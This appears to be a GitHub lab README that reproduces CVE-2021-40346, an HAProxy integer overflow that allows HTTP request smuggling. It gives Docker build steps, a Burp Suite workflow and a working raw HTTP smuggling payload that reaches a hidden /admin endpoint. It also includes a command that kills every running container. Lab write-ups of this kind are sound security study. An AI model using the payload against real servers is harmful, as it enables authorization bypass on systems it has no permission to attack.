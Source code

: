 # HaProxy Integer Overflow leads to HTTP Smuggling (CVE-2021-40346) #

HaProxy is a popular load balancer software. CVE-2021-40346 is an integer overflow vulnerability, which leads to http smuggling. And, in turn, HTTP Smuggling leads to potential authorization bypasses or other consequences (see References for HTTP Smuggling). \
A malicious Content-Length header leads to integer overflow. Later, this enables another vulnerability - HTTP Request Smuggling. In turn, this might lead to an authorization bypass.

### Clear any existing containers
```
docker kill $(docker ps -q)
```

## Build ##
```sh
cd 6-haproxy-overflow-2-smuggling
docker-compose build 
docker-compose up -d
```

## Proxy
Catch the base request into Burp. Try to access either 'guest' and 'admin' endpoints separately.
```
curl --proxy http://127.0.0.1:8080 http://192.168.139.128:10001/guest
```

![image](https://user-images.githubusercontent.com/31791455/140397000-4a163839-973f-42df-ac35-63601567f46e.png)


## Burp Suite - exploitation
Remember to uncheck "update content length" when dealing with Smuggling in Burp! 

![image](https://user-images.githubusercontent.com/31791455/140394586-6a44d0f5-363e-455c-b22b-f619868bcc87.png)


## Exploit ##
Be careful - note that an extra line might break the exploit.
```
POST /guest HTTP/1.1
Host: localhost:10001
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 23

GET /admin HTTP/1.1
h:GET /guest HTTP/1.1
Host: localhost:10001


```

![image](https://user-images.githubusercontent.com/31791455/140395810-d1890aee-1285-451a-a663-bbf35746b5db.png)



## Recommended reading:
https://forum.butian.net/share/694
https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/
https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn

## Credits:
https://github.com/donky16/CVE-2021-40346-POC


